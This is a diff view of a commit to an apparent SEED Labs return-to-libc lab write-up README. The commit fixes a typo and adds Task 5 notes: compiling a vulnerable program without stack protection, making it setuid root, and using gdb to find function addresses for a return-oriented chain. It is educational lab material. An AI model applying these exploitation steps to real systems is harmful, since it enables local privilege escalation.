

Before and after one commit to li-xin-yi/seedlab, a Markdown page: Return-to-libc-Attack/README.MD, 2 parts joined by grey strips. Shown: that part at 88% size. Drawn GitHub-style; pictures changed too: Return-to-libc-Attack/chainnoarg.png (added); blank space fills up the shorter version.

````diff
--- a/Return-to-libc-Attack/README.MD
+++ b/Return-to-libc-Attack/README.MD
@@ -113,7 +113,7 @@ with open("badfile", "wb") as f:
     f.write(content)
 ```
 
-**Note**: in the line 5, the length of `content` should be set to a smaller number instead of 300 both in the templete and source code offered by the official site.
+**Note**: in the line 5, the length of `content` should be set to a smaller number instead of 300 both in the template and source code offered by the official site.
 
 Or use the C version `exploit.c`:
 
@@ -188,3 +188,25 @@ gdb-peda$ quit
 ```
 
 # Task 5
+
+```shell
+gcc -fno-stack-protector -z noexecstack -o retlib_rop retlib_rop.c
+sudo chown root retlib_rop
+sudo chmod 4755 retlib_rop
+./retlib_rop
+/bin/sh is in 0xbfffe558
+Address of buffer[] : 0xbfffe520
+Frame Pointer value : 0xbfffe538
+Returned Properly
+```
+
+```
+gdb -q retlib_rop
+r
+p bar
+$1 = {<text variable, no debug info>} 0x8048567 <bar>
+p exit
+$2 = {<text variable, no debug info>} 0xb7e369d0 <__GI_exit>
+```
+
+![](./chainnoarg.png)
````
Also changed, not shown: other parts of Return-to-libc-Attack/README.MD (+1 -1 lines), 3 other files.
